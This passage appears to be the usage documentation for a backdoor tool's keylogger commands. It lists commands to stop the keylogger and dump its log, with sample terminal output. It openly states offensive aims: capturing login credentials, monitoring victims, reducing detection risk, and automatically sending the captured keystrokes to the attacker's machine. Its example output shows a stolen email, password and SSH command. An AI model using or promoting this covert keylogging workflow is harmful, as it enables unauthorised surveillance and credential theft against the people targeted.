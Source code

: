 **Response:**

```
[+] Keylogger started successfully
```

**Use case:**

- Start before user begins typing
- Capture login credentials
- Monitor user activity

---

### Stop Keylogger

```bash
keylog_stop
```

**What happens:**

- Stops the keylogger thread
- Saves any buffered keystrokes
- Closes log file properly
- Returns confirmation

**Response:**

```
[+] Keylogger stopped successfully
```

**Use case:**

- Stop monitoring after capturing target data
- Before exiting backdoor connection
- To reduce detection risk

---

### Dump Keylog (Auto-Download)

```bash
keylog_dump
```

**What happens:**

1. Saves any buffered content to log file
2. Reads the log file from target
3. Automatically transfers to attacker machine
4. Saves as `keylog_dump_YYYYMMDD_HHMMSS.txt`
5. Displays content in terminal

**Response:**

```
Keylog file ready: logs/keylog/keylog.txt
[*] Downloading keylog file...
[+] Keylog file downloaded: keylog_dump_20251004_143022.txt

=== Keylog Content ===
[2025-10-04 14:25:12] username@email.com
[2025-10-04 14:25:45] password123
[2025-10-04 14:26:10] ssh root@192.168.1.100
=== End of Keylog ===
```
